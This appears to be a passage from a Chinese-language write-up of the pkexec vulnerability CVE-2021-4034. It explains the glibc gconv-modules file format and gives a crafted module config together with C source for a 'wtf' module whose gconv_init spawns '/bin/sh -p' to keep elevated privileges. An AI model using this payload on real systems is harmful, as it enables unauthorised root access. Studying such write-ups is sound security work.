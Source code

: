 # gconv-modules
* 參閱一下[手冊 6.5.4.1 Format of gconv-modules files](https://www.gnu.org/software/libc/manual/html_node/glibc-iconv-Implementation.html)
* 簡易設定檔例如以下:
```
module  ISO-2022-JP//   EUC-JP//        ISO2022JP-EUCJP    1
```
* 第一個欄位表示這是什麼功能，有 `alias`、`module`，接下來講 `module` 的欄位定義
* 第二個欄位是 from
* 第三個欄位是 to
* 第四個欄位是 loadable module
* 第五個欄位是 cost
* 當今天有呼叫到 `iconv_open(const char *tocode, const char *fromcode)` ([man page](https://man7.org/linux/man-pages/man3/iconv_open.3.html))，就會根據這個設定檔，去找到對應的 loadable module 來做轉換 CODESET 的工作
* 而 loadable module 要怎麼寫也有在手冊中的 6.5.4.4 iconv module interfaces 提到
* 需 export 以下三個函數:
    * gconv_init
    * gconv_end
    * gconv
* 問題接下來是，程式真的會呼叫到 `iconv_open()` 嗎？直接 `sudo gdb poc` 來看看:
![](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2022-02-18-CVE-2021-4034-Writeup/2.png)
* 會從 `UTF-8` 轉到 `ANSI_X3.4-1968`，於是我們可以寫以下 config:

```
#         from       to                  module    cost
module    UTF-8//    ANSI_X3.4-1968//    wtf       1
```

* 如此轉換時就會用到我們的 `wtf` module，`wtf` 如下:

```c
int gconv_init (void *_)
{
    // -p priv  Do not attempt to reset effective uid if it does not match uid. This is not set by
    //          default to help avoid incorrect usage by setuid root programs via system(3) or
    //          popen(3).
    char *argv[] = {"/bin/sh", "-p", NULL};
    puts("[*] Run arbitrary shared library");
    setenv("PATH", "/bin:/usr/bin", 1);
    execve("/bin/sh", argv, NULL);
}

void gconv_end (void *data)
{
}

int gconv (void)
{
    return 0;
}
```
